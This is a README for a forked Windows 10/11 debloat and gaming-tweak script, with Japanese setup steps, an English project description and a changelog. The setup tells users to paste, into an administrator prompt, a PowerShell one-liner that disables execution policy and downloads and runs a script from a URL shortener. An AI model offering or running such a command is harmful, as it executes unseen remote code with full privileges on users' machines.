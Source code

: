 # 使い方
管理権限でコマンド画面を開きコマンドを貼り付けます。　以下の手順で実施します。

1. [Win]キー + R で[ファイル名を指定して実行]を開きます。
2. 「cmd」と入力します。
3. [Shift]+[CTRL]を押しながら[Enter]を押します。
4. [このアプリが変更を加えることを許可しますか]で[はい]を選択します。
5. 下記のコマンドをコピーし、コマンド画面に張り付けて[Enter]を押します。（右端の四角いアイコンをクリックするとコピーされます）
```
powershell -NoProfile -ExecutionPolicy unrestricted -Command "[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; &iex(New-Object Net.WebClient).DownloadString('https://x.gd/49Xub')"
```
6. 一連の処理が終わると再起動します。


以降はFork元から変更なしです

↓

# Windows10GamingFocus
This is A FORK Based On ChrisTitusTech that's foucus on debloat and optimize windows 10/11 for the lowest latency and best gaming experience, the Ultimate Windows 10/11 Script is a creation from multiple debloat scripts and gists from github. I also added Chocolatey and other tools to the script that I install on every machine.
```
Warrning: I am NOT responsible for what you do to your Devices/Systems, so follow these instructions at your own risk. Make sure you know what you're doing, it's best to understand the process rather than just copy and paste commands and such.
```

## Changelog!

16 July 2022
```
- add better support for windows 11!
- Moved taskbar icons to the left.
- restored windows 10 context menu.
- disabling windows 11 start menu recomended section.
- bug fixes and imporvments.
```
27 June 2021
```
- Getting Ready for Windows 11 yay!
- Disabling New Windows 10 News and Interests Feed.
- Movilng Updates to slower release ring.
- Delaying Windows Feature Updates by 45 Days to Ensure a Bug Free Build.
- Delaying Windows Quality Updates by 7 Days to Ensure a Bug Free security updates.
- much more fixes forget to remember!
```
10 April 2021
```
- Reverting removal of XBOX as it's required by some Amd system for recording!
- Removing installation of Sumatra, ChocoGUI, disable Microsoft Software Protection Platform Service, disable Wsappx to Fix 100% Disk Usage, as they cause issue with alot of people.
- Fixing some issues with code and cleaning it to be prepaired with upcomming windows 10/11 21h1.
```
28 Feb 2021
```
- Adding Disabling Nagle’s Algorithm to Network Optimizations.
- Fixing MSI Mode not applying correctly!
- Keeping Dolby and Dolby Access from removing as requested.
```
23 Feb 2021
```
```